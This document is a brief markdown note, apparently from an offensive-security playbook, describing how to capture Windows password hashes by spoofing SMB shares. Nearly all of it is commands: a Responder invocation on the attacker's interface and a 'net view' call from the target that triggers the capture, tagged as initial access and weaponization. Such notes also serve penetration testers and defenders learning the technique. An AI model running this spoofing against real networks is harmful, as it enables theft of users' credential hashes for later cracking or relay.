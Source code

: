```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - sniffing-and-spoofing
  - weaponization
  - client-side-attacks
  - network-protocols
  - smb
  - scenarios
---
```

# 01 - Capture Hashes via Spoof SMB Shares

## 1.1 - Attacker

```
$ sudo responder -I <interface> -rdwv
```

## 1.2 - Target

```
C:\> net.exe view \\snare
```